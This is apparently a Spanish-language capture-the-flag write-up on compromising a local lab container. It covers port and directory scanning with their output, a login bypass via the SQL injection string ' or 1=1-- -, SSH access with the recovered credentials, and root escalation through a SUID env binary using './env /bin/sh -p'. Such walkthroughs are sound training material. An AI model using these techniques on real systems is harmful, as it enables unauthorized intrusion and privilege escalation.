


### Reconocimiento inicial

Se realizó un escaneo de la dirección IP **172.17.0.2** utilizando **Nmap** para identificar servicios y puertos abiertos. 
##### Escaneo de Puertos abiertos: 

``` python
┌──(kali㉿kali)-[~]
└─$ nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 01:09 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.92 seconds
```
##### Versiones de servicios:

``` python
┌──(kali㉿kali)-[~]
└─$ nmap -p22,80 -sCV 172.17.0.2

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 01:15 -03
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Iniciar Sesi\xC3\xB3n
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds
```


**Resultados:**
- **22/tcp** - SSH (OpenSSH 8.9p1 Ubuntu 3ubuntu0.6)    
- **80/tcp** - HTTP (Apache/2.4.52 Ubuntu)


### Reconocimiento sobre puerto 80 Web

Se utilizó **WhatWeb** y **Nmap** / **Gobuster** para obtener más información sobre el servidor web y posibles rutas ocultas.

##### Whatweb
``` python
┌──(kali㉿kali)-[~]
└─$ whatweb 172.17.0.2

http://172.17.0.2 [200 OK] Apache[2.4.52], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], PasswordField[password], Title[Iniciar Sesión]
```

**Resultados:**
- Servidor **Apache/2.4.52 (Ubuntu)**    
- Campo de contraseña identificado en la página de inicio de sesión

#### Enumeración de Directorios 

###### Nmap:
``` python
┌──(kali㉿kali)-[~]
└─$ nmap --script http-enum -p80 172.17.0.2
```

**Resultados:**
Sin resultados exitosos.

###### Gobuster:
``` python
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,py

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,py,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

**Resultados:**
- **/index.php** (200 OK)    
- **/config.php** (200 OK)
- **/server-status** (403 Forbidden)


### Prueba de Inyección SQL (SQLi)

Ingresamos a http://172.17.0.2/index.php donde nos encontramos con el panel de login y realizamos una prueba para saber si es vulnerable a inyección SQL agregando una " ' ".

![[Pasted image 20250401020938.png]]
Tras recibir un error y confirmar que es vulnerable se procede a realizar pruebas básicas de SQLi

En el campo de usuario se ingreso ' or 1=1-- - y en contraseña cualquier cosa, se le dió submit y la inyección fue exitosa.

![[Pasted image 20250401024658.png]]
**Resultados:**
- Se identificó un usuario válido **Dylan**.
- Se obtuvo una **contraseña** tras una inyección SQL exitosa.  




Se probó la autenticación por SSH utilizando las credenciales obtenidas, logrando acceso al sistema.

![[Screenshot from 2025-04-01 02-49-17.png]]

Una vez dentro del sistema, se realizó un reconocimiento de permisos y binarios con **SUID**.



Se detectó que **/usr/bin/env** tenía permisos SUID, lo que permitía su explotación para escalar privilegios. 

Se utilizó el método documentado en **GTFOBins** (https://gtfobins.github.io/gtfobins/env/) para elevar privilegios a **root**:

 `./env /bin/sh -p`

Tras la ejecución, se obtuvo acceso como usuario root, logrando el compromiso total del sistema.

![[Pasted image 20250401025821.png]]

**Estado del sistema: Comprometido**